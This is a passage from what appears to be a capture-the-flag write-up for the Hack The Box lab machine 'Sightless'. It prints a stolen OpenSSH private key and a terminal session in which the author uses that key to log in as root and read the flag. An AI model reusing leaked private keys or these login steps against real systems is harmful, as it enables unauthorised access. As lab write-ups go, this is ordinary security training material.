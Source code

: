 ```bash
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
-----END OPENSSH PRIVATE KEY-----
```

### 22 - SSH

```bash
┌──(bravosec㉿fsociety)-[~/htb/Sightless]
└─$ vi root.id_rsa

┌──(bravosec㉿fsociety)-[~/htb/Sightless]
└─$ chmod 600 root.id_rsa

┌──(bravosec㉿fsociety)-[~/htb/Sightless]
└─$ ssh -i root.id_rsa root@$(pt get rhost)
Warning: Permanently added 'sightless.htb' (ED25519) to the list of known hosts.
Last login: Tue Sep  3 08:18:45 2024
root@sightless:~# id
uid=0(root) gid=0(root) groups=0(root)
root@sightless:~# cat /root/root.txt
a338d114d316bb29e272519348f28707
root@sightless:~#
```

# Additional
---
